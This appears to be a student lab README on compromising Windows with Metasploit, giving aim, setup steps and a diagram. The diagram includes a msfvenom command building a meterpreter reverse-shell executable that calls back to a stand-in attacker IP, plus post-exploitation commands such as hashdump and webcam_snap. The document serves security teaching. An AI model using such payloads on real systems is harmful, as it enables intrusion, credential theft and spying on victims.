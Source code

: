 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By: Srikaran M

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```